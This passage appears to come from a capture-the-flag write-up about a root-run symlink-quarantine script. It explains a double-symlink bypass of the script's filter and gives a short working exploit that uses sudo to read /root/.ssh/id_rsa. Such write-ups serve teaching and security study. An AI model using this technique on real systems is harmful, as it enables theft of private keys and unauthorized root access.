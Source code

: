 We see that `bob` can run the script `/opt/ghost/clean_symlink.sh` as root. We check the content of this script:
```bash
cat /opt/ghost/clean_symlink.sh
```
```
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

We see that if CHECK_CONTENT is set to true and file is a symlink to a not critical file, the script will print the content of the symlink target. 

We can create 2 symlinks
 1. `home/bob/a.png` -> `/root/.ssh/id_rsa` 
 2. `home/bob/b.png` -> `home/bob/a.png`

This way when we run the script with CHECK_CONTENT set to true and `/home/bob/b.png` as argument, the script will follow the symlink to `/home/bob/a.png` which is a non critial file. Then it will print the content of `/home/bob/a.png` which is a symlink to `/root/.ssh/id_rsa`. 

We can automate this with the following script:
```bash
#!/bin/bash

ln -s -f "$1" /home/bob/a.png
ln -s -f /home/bob/a.png /home/bob/b.png

CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/b.png
```
